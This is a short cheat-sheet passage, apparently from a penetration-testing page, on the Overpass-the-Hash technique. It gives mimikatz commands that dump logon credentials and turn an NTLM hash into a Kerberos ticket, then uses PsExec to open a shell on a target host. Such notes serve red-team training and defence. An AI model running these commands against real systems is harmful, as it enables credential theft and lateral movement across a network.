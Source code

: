 User NTLM hash can be used to create a Ticket Granting Ticket (TGT) which can then be used to make a Ticket Granting Service (TGS).

On mimikatz, do the following:
```
privilege::debug
```
Note the hash of the user to Overpass the Hash:
```
sekurlsa::logonpasswords
```
```
sekurlsa::pth /user:$(USERNAME) /domain:$(DOMAIN) /ntlm:$(NTLM_HASH) /run:powershell
```
At this point, running the whoami command on the newly created PowerShell session would show the old identity instead of the new user. While this could be confusing, this is the intended behavior of the whoami utility which only checks the current process's token and does not inspect any imported Kerberos tickets.

We have now converted our NTLM hash into a Kerberos TGT, allowing us to use any tools that rely on Kerberos authentication (as opposed to NTLM). Here we will use PsExec.
```powershell
.\PsExec.exe \\$(HOSTNAME_OF_TARGET) cmd
```
